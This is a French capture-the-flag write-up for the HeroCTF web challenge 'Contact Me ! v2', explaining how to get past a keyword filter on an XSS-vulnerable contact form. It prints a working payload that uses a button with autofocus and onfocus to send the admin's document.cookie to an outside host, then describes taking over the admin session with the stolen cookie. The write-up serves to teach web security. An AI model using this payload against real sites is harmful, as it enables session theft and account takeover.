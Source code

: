 # Contact Me ! v2

### Catégorie

Web

### Description

Le petit développeur a bien compris la faille et a appliqué un patch.
Montrez que lui que, malgré ses efforts, ce n'est pas suffisant !

http://challs.heroctf.fr:3011/

Format : Hero{flag}

### Auteur

Worty

### Note de l'auteur

A noter qu'il existe plusieurs solutions pour flag ce challenge, ici, je n'en présenterai qu'une seule.

### Solution

Ici, nous savons que nous avons à faire à une faille de type XSS.<br/>
En revanche, l'admin a mis en place des restrictions pour se prévenir de celle-ci.

Ici, il va falloir procéder à des tests pour savoir ce que l'on a le droit de faire ou non:<br/>
- La balise "script" est interdite<br/>
- La balise "img" est interdite<br/>
- La balise "iframe" est interdite<br/>
- La balise "body" est interdite<br/>
- La balise "span" est interdite<br/>
- L'évènement "onerror" est interdit<br/>
- L'évènement "onload" est interdit<br/>
- Le caractère "+" est interdit<br/>
- La chaîne de caractère "XML" est interdite<br/>
- La fonction "open" est interdite<br/>
- La fonction "eval" est interdite<br/>
- La fonction "atob" est interdite<br/>
A noter que le script ne prend pas en compte la casse, donc même écrire ScRIpt ne marchera pas pour bypass la restriction.

Maintenant que nous savons tout ce qui est interdit, qu'est ce qu'il nous reste?<br/>
Il reste la balise "button", l'attribut autofocus et onfocus.<br/>
"autofocus" va permettre de passer la balise "button" en focus, et donc, avec l'évènement onfocus, on va pouvoir exécuter du code javascript!

Payload : < button autofocus onfocus="alert(1)">, et magie, on a une belle alert qui se lancer quand la page se réactualise!

Il y a maintenant un autre problème, le caractère "+" est aussi interdit, on va devoir utiliser la fonction concat() de javascript.<br/>
Cette fonction s'applique aux objets de type String. Exemple "a".contact("b") donnera "ab".<br/>
C'est donc comme ceci que nous allons concaténer les cookies de l'admin à notre payload !.<br/>

Payload final : < button autofocus onfocus="window.location='https://worty.alwaysdata.net/cookies.php?c='.concat(document.cookie)" />

Pareil que pour le challenge précédent, je me connecte sur http://challs.heroctf.fr:3011/admin.php, je change mon cookie de session par celui de l'administrateur que j'ai récupéré, et j'actualise!

### Flag

Hero{htmlspecialchars_m4y_b3_y0ur_fr13nd_!!}